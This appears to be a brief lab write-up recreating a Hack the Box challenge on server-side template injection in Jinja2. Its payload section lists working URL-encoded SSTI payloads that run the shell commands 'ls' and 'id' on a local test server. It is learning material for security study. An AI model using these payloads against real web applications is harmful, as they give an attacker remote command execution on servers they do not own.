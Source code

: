# Taking advanatage of SSTI
Recreated the Templated challenge in Hack the Box

## Payload

http://localhost:5000/{{7*7}}

http://localhost:5000/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('ls').read()%7D%7D

http://localhost:5000/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('id').read()%7D%7D

### Refereence:
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
